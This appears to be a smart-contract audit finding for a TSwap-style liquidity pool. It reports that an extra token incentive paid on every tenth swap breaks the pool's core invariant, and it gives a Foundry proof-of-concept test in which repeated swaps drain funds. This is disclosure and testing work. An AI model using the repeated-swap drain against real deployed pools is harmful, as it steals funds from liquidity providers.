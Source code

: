 ### **Impact:**

A user could maliciously drain the protocol of funds by doing a lot of swap and collecting the extra incentive given out by the protocol.

Most simply put, the protocol’s core invariant is broken.

### **Proof of Concept:**

1. A user swaps 10 times and collects the extra incentive of `1_000_000_000_000_000_000` tokens.
2. That user continue to swap until all the protocol funds are drained

- Proof of Code
  Paste the following into `TSwapPool.t.sol`

  ```solidity
  function testInvariantBroken() public {
      vm.startPrank(liquidityProvider);
      weth.approve(address(pool), 100e18);
      poolToken.approve(address(pool), 100e18);
      pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
      vm.stopPrank();

      uint256 outputWeth = 1e17;

      vm.startPrank(user);

      poolToken.approve(address(pool), type(uint256).max);
      poolToken.mint(user, 100e18);
      for (uint i = 0; i < 9; i++) {
          pool.swapExactOutput(
              poolToken,
              weth,
              outputWeth,
              uint64(block.timestamp)
          );
      }

      int256 startingY = int256(weth.balanceOf(address(pool)));
      int256 expectedDeltaY = int256(outputWeth);

      pool.swapExactOutput(
          poolToken,
          weth,
          outputWeth,
          uint64(block.timestamp)
      );

      vm.stopPrank();

      uint256 endingY = weth.balanceOf(address(pool));
      int256 actualDeltaY = int256(endingY) - int256(startingY);
      assertEq(actualDeltaY, expectedDeltaY);
  }
  ```
